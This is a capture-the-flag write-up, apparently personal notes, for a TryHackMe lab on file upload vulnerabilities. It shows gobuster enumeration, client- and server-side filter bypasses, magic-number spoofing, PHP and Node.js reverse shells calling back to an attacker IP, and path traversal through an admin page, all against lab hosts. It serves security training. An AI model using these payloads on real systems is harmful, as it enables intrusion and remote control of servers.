




# Upload Vulnerabilities


## 🌐 Resources 🔗

> - [TryHackMe | Upload Vulnerabilities](https://tryhackme.com/r/room/uploadvulns)
>   - [File Upload Vulnerabilities HINTS](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/)
> - [File Upload | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
> - [PayloadsAllTheThings/Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

---

## Attack Methodology

To tackle file upload challenges, begin by **examining** the website to identify its **technology** and **potential attack vectors** (e.g. upload pages), using tools like Wappalyzer or Burpsuite to gather information from headers and server responses (e.g. `server`, `x-powered-by`).

Locate an upload page and review its **client-side scripts** for filters.

Perform a **test upload** with an innocent file to understand **how** the website **processes** and **stores** uploads (upload dir, embedding, naming scheme), using tools like Gobuster to find uploaded file locations (`-x` switch in Gobuster).

Once the upload behavior is understood, attempt to **bypass client-side filters** with a malicious file and analyze any **server-side rejection** for clues.

Common server-side filters include extension whitelists/blacklists, magic number checks, MIME type validation, or file size restrictions, which can be identified through systematic testing, such as **altering file attributes** (e.g. invalid file extension, magic number, file size) or **intercepting upload requests** (e.g. change MIME type with BurpSuite). Use this information to refine your approach and improve the likelihood of a successful exploit.

## Remote Code Execution (RCE)

```bash
gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 > shell.uploadvulns.dirs

# /resources	(Status: 301) [Size: 334] [--> http://shell.uploadvulns.thm/resources/]
# /assets		(Status: 301) [Size: 331] [--> http://shell.uploadvulns.thm/assets/]

webshells # on Kali

cp /usr/share/webshells/php/php-reverse-shell.php .

# open the file and change the IP to THM VPN tunnel IP
# upload the file to http://shell.uploadvulns.thm/

nc -nvlp 1234

# Open
# http://shell.uploadvulns.thm/resources/php-reverse-shell.php

# Reverse shell
cat /var/www/flag.txt
```

---

## Client-Side filtering bypass

- Check source code of [http://java.uploadvulns.thm/](http://java.uploadvulns.thm/)
- Check [http://java.uploadvulns.thm/assets/js/client-side-filter.js](http://java.uploadvulns.thm/assets/js/client-side-filter.js)

**client-side-filter.js**

- Waits for the window to load.
- Sets up an event listener on a file input.
- **Validates that the selected file is a PNG image.**
- Displays the file name if valid or clears and hides input if invalid.
- Manages UI feedback using additional functions (`error`, `success`).

```javascript
window.onload = function(){
	var upload = document.getElementById("fileSelect");
	var responseMsg = document.getElementsByClassName("responseMsg")[0];
	var errorMsg = document.getElementById("errorMsg");
	var uploadMsg = document.getElementById("uploadtext");
	upload.value="";
	upload.addEventListener("change",function(event){
		var file = this.files[0];
		responseMsg.style = "display:none;";
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}
	});
};
```

- Find the images upload directory:

```bash
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64

# /images (Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/images/]
# /assets	(Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/assets/]
```

- Try to upload a `.png` file and check correct uploading at [http://java.uploadvulns.thm/images](http://java.uploadvulns.thm/images)
  - (2nd option: prevent `client-side-filter.js` file from being loaded by intercepting the response with Burp)
- Change `php-reverse-shell.php` extension and catch the upload request with BurpSuite
  - as the MIME type (based on the file extension) automatically checks out, the Client-Side filter lets the payload through without complaining

```bash
cp php-reverse-shell.php shell.png
```

- In the intercepted request, change the to `filename` and the `Content-Type` to the following values and then forward the request

```bash
filename="shell.php"
Content-Type: text/x-php
```



- Set up a `nc` listener and navigate to [http://java.uploadvulns.thm/images/shell.php]( http://java.uploadvulns.thm/images/shell.php) to receive the reverse shell

```bash
rlwrap nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cat /var/www/flag.txt
```

---

## Server-Side filtering bypass - extensions

> 📌 "The key to bypassing any kind of server side filter is to enumerate and see what is allowed, as well as what is blocked; then try to craft a payload which can pass the criteria the filter is looking for."
>

- Find the assets folder

```bash
gobuster dir -u http://annex.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

- [http://annex.uploadvulns.thm/assets/](http://annex.uploadvulns.thm/assets/)
- [http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/) - this is where the files are uploaded with randomized naming scheme
- Try to upload `shell.php` - errors
- Try to upload `shell-png.php` - errors
- Try to upload `shell.php5` - works, file uploaded successfully
- Set up a `nc` listener and navigate to [http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/)
  - Access the randomized naming `*-shell.php5` file to receive the reverse shell

```bash
nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cat /var/www/flag.txt
```

---

## Server-Side filtering bypass - magic numbers

> 📌 Magic numbers, the initial hex digits in a file, can validate file uploads by matching against a whitelist or blacklist, though their reliability varies by webserver type.
>
> - [List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

```bash
gobuster dir -u http://magic.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

- [http://magic.uploadvulns.thm/graphics/](http://magic.uploadvulns.thm/graphics/)
- [http://magic.uploadvulns.thm/assets/](http://magic.uploadvulns.thm/assets/)
- Try to upload `shell.php` - errors "GIFs only please!"
- Duplicate `shell.php` to `magic.php` file. Edit it with a hex editor and add the GIF file signature (ASCII is `GIF87a` - check [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) )
- Upload the new `magic.php` file with GIF Hex signature - "File successfully uploaded"
- Set up a `nc` listener and navigate to [http://magic.uploadvulns.thm/graphics/magic.php](http://magic.uploadvulns.thm/graphics/magic.php)
  - Access the randomized naming `*-shell.php5` file to receive the reverse shell

```bash
cp shell.php magic.php

file magic.php
	shell.php: PHP script, ASCII text

nano magic.php
# add as first line, a number of random bytes = number of chosen magic number (GIF87a)
# in this case
# AAAAAA

hexeditor magic.php
# Modify the Hex signature to be 47 49 46 38 37 61

file magic.php
	shell.php: GIF image data, version 87a, 15370 x 28735
```

```bash
nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
```

---

## Final challenge - Jewel

```bash
gobuster dir -u http://jewel.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 181] [--> /content/]
/modules              (Status: 301) [Size: 181] [--> /modules/]
/admin                (Status: 200) [Size: 1238]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Content              (Status: 301) [Size: 181] [--> /Content/]
/Assets               (Status: 301) [Size: 179] [--> /Assets/]
/Modules              (Status: 301) [Size: 181] [--> /Modules/]
/Admin                (Status: 200) [Size: 1238]
```


- Open [http://jewel.uploadvulns.thm/](http://jewel.uploadvulns.thm/)
  - Using Wappalyzer
    - Node.js server (Header - `X-Powered-By: Express`)
    - Create a `jewel.js` payload file with this code (source - [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#nodejs](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#nodejs))

```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "<ATTACKER_IP>", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

- Check source code and the available `.js` files

```html

<!DOCTYPE html>
<html>
	<head>
		<title>Jewel</title>
		<meta charset="utf-8">
		<meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
		<link type="text/css" rel="stylesheet" href="assets/css/style.css">
		<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
		<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
		<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
		<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	</head>
	<body>
		<div id="one" class="background"></div>
		<div id="two" class="background" style="display:none;"></div>
		<div id="three" class="background" style="display:none;"></div>
		<div id="four" class="background" style="display:none;"></div>
		<main>
			<object ondragstart="return false;" ondrop="return false;" id="title" data="/assets/title.svg" type="image/svg+xml"></object>
			<p>Have you got a nice image of a gem or a jewel?<br>Upload it here and we'll add it to the slides!</p>
			<button class="Btn" id="uploadBtn"><i id="uploadIcon" class="material-icons">backup</i> Select and Upload</button>
			<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
		</main>
		<p id="responseMsg" style="display:none;"></p>
	</body>
</html>
```


- [http://jewel.uploadvulns.thm/assets/js/upload.js](http://jewel.uploadvulns.thm/assets/js/upload.js)
  - File Validation:
    - **File Size Check**: Ensures the file size is less than 50 KB.
    - **Magic Number Check**: Validates the file’s magic number to ensure it's a JPEG image (`ÿØÿ`).
    - **File Extension Check**: Confirms the file extension is `.jpg` or `.jpeg`.

```javascript
$(document).ready(function() {
    let errorTimeout;
    const fadeSpeed = 1000;

    function setResponseMsg(responseTxt, colour) {
        $("#responseMsg").text(responseTxt);
        if (!$("#responseMsg").is(":visible")) {
            $("#responseMsg").css({
                "color": colour
            }).fadeIn(fadeSpeed)
        } else {
            $("#responseMsg").animate({
                color: colour
            }, fadeSpeed)
        }
        clearTimeout(errorTimeout);
        errorTimeout = setTimeout(() => {
            $("#responseMsg").fadeOut(fadeSpeed)
        }, 5000)
    }
    $("#uploadBtn").click(function() {
        $("#fileSelect").click()
    });
    $("#fileSelect").change(function() {
        const fileBox = document.getElementById("fileSelect").files[0];
        const reader = new FileReader();
        reader.readAsDataURL(fileBox);
        reader.onload = function(event) {

            //Check File Size
            if (event.target.result.length > 50 * 8 * 1024) {
                setResponseMsg("File too big", "red");
                return;
            }
            //Check Magic Number
            if (atob(event.target.result.split(",")[1]).slice(0, 3) != "ÿØÿ") {
                setResponseMsg("Invalid file format", "red");
                return;
            }
            //Check File Extension
            const extension = fileBox.name.split(".")[1].toLowerCase();
            if (extension != "jpg" && extension != "jpeg") {
                setResponseMsg("Invalid file format", "red");
                return;
            }


            const text = {
                success: "File successfully uploaded",
                failure: "No file selected",
                invalid: "Invalid file type"
            };
            $.ajax("/", {
                data: JSON.stringify({
                    name: fileBox.name,
                    type: fileBox.type,
                    file: event.target.result
                }),
                contentType: "application/json",
                type: "POST",
                success: function(data) {
                    let colour = "";
                    switch (data) {
                        case "success":
                            colour = "green";
                            break;
                        case "failure":
                        case "invalid":
                            colour = "red";
                            break
                    }
                    setResponseMsg(text[data], colour)
                }
            })
        }
    })
});
```

- Trying to upload a valid jpeg file this is the BurpSuite POST request

```bash
POST / HTTP/1.1
Host: jewel.uploadvulns.thm
Content-Length: 9124
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json
Sec-GPC: 1
Accept-Language: en-US,en;q=0.7
Origin: http://jewel.uploadvulns.thm
Referer: http://jewel.uploadvulns.thm/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


{"name":"thm.jpeg","type":"image/jpeg","file":"data:image/jpeg;base64,/9j/4AAQSkZ...UREQEREH//Z"}
```

- The home webpage load some background images with this name structure `XXX.jpg` from the `/content` dir
- Try to find all jpg/jpeg files using the provided `UploadVulnsWordlist_1593564107766.txt`

```bash
gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist_1593564107766.txt -t 64 -x jpg

/ABH.jpg              (Status: 200) [Size: 705442]
/ASK.jpg              (Status: 200) [Size: 6789]
/KLK.jpg              (Status: 200) [Size: 6789]
/LKQ.jpg              (Status: 200) [Size: 444808]
/OHC.jpg              (Status: 200) [Size: 6789]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
```

- One of the files happens to be the same uploaded image, so there is a naming scheme

### Client-Side filtering bypass

- To upload a valid file and bypass client-side filtering, use BurpSuite

  - Open the homepage at [http://jewel.uploadvulns.thm/](http://jewel.uploadvulns.thm/)
  - Turn on BurpSuite proxy intercept and do a refresh with `SHIFT+F5` of the homepage
  - Forward until intercepting the `upload.js` script and right-click to **Do intercept Response to this request**
  - Remove the check functions from the response and forward all



- Forwarded `upload.js`:

```javascript
$(document).ready(function() {
    let errorTimeout;
    const fadeSpeed = 1000;

    function setResponseMsg(responseTxt, colour) {
        $("#responseMsg").text(responseTxt);
        if (!$("#responseMsg").is(":visible")) {
            $("#responseMsg").css({
                "color": colour
            }).fadeIn(fadeSpeed)
        } else {
            $("#responseMsg").animate({
                color: colour
            }, fadeSpeed)
        }
        clearTimeout(errorTimeout);
        errorTimeout = setTimeout(() => {
            $("#responseMsg").fadeOut(fadeSpeed)
        }, 5000)
    }
    $("#uploadBtn").click(function() {
        $("#fileSelect").click()
    });
    $("#fileSelect").change(function() {
        const fileBox = document.getElementById("fileSelect").files[0];
        const reader = new FileReader();
        reader.readAsDataURL(fileBox);
        reader.onload = function(event) {
            const text = {
                success: "File successfully uploaded",
                failure: "No file selected",
                invalid: "Invalid file type"
            };
            $.ajax("/", {
                data: JSON.stringify({
                    name: fileBox.name,
                    type: fileBox.type,
                    file: event.target.result
                }),
                contentType: "application/json",
                type: "POST",
                success: function(data) {
                    let colour = "";
                    switch (data) {
                        case "success":
                            colour = "green";
                            break;
                        case "failure":
                        case "invalid":
                            colour = "red";
                            break
                    }
                    setResponseMsg(text[data], colour)
                }
            })
        }
    })
});
```


> - Another way is to modify `jewel.js` to make it a JPEG file **under 50 KB** with the **magic number** `FF D8 FF DB` and a `.jpg` **extension**
>
> ```bash
> file jewel.js
> 	jewel.js: JavaScript source, ASCII text
> 
> cp jewel.js jewel.jpg
> 
> nano jewel.jpg
> # add as first line, a number of random bytes = number of necessary magic number (ÿØÿÛ)
> # in this case
> # AAAA
> 
> hexeditor jewel.jpg
> # Modify the Hex signature to be FF D8 FF DB
> 
> file jewel.jpg
> 	jewel.jpg: JPEG image data
> ```
>
> - Upload the `jewel.jpg` file - Successful upload
> - It will not work when launched via the Admin page because it is not recognized as a js script

```bash
cp jewel.js jewel.jpg

file jewel.jpg
	jewel.jpg: JavaScript source, ASCII text
```

- Upload the `jewel.jpg` file - Successful upload because server-side only checks for MIME type (file extension)



- Find the file with Gobuster

```bash
gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist_1593564107766.txt -t 64 -x jpg

/ABH.jpg              (Status: 200) [Size: 705442]
/ASK.jpg              (Status: 200) [Size: 6789]
/DQF.jpg              (Status: 200) [Size: 382]
/KLK.jpg              (Status: 200) [Size: 6789]
/LKQ.jpg              (Status: 200) [Size: 444808]
/OHC.jpg              (Status: 200) [Size: 6789]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
```

- Opening the file at [http://jewel.uploadvulns.thm/content/DQF.jpg](http://jewel.uploadvulns.thm/content/DQF.jpg) with `nc` listener, no reverse shell is received



- Start a `nc` listener on the port setup in the `jewel.js` payload file
- Open the found admin page at [http://jewel.uploadvulns.thm/admin](http://jewel.uploadvulns.thm/admin)
  - try to enter the file name to execute as is `DQF.jpg` - not working
  - try to use the path to the file `../content/DQF.jpg` - Success, received reverse shell

```bash
nc -nvlp 1234

# Rev Shell
pwd
/var/www/html
cat /var/www/flag.txt
```

---

